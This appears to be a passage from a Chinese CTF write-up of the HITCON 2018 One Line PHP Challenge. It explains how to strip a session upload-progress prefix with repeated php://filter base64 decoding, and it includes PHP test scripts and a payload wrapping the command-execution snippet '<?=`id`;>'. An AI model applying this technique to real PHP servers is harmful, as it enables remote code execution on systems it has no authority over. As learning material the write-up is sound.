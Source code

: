 # 重新认识base64

接下来还有一个条件就是

```php
substr(file($_)[0],0,6) === '@<?php' 
```

但是观察之前的session信息，可以发现，文件是以`upload_progress_`开始，最多控制其后的`123`部分

这时候能想到的就是利用php中的一些伪协议，进行文件内容的修改。这个思路p神的blog中也有写到过

https://www.leavesongs.com/PENETRATION/php-filter-magic.html#_1

就是利用`php://filter/write=convert.base64-decode/resource`的方式绕过死亡exit.

这里需要一些base64的前置知识

> base64编码后的字符串集为[0-9a-zA-Z+/=]
>
> 因而在解码的时候遇到这个之外的字符，就会跳过那些字符。只对在此范围内的字符进行解码。

所以只要对前面的`upload_progress_`进行足够多次的解密，就可以使其变成空字符

```php
$i = 0 ;
$data = "upload_progress_";
while(true){
    $i += 1;
    $data = base64_decode($data); 
    var_dump($data);
    if($data == ''){
        echo "一共解码了:".$i,"次\n";
        break;
    }
}
```

![](hitcon2018-One-Line-PHP-Challenge\9.png)

通过脚本可以看到，只要三次就可以将前面的内容转换为成空。

可是事情似乎没有那么简单。由于base64是对四个字符为一组进行解码。`upload_progress_`并不满足三次解码后允许字符是4的倍数，就会把后面的字符算入填充，从而破坏原有传入的php代码

例如

```php
function triple_base64_encode($str){
	return base64_encode(base64_encode(base64_encode($str)));
}
function triple_base64_decode($str){
	return base64_decode(base64_decode(base64_decode($str)));
}
$i = 0 ;
$data = "upload_progress_".triple_base64_encode("<?=\`id\`;>");

echo triple_base64_decode($data);
```
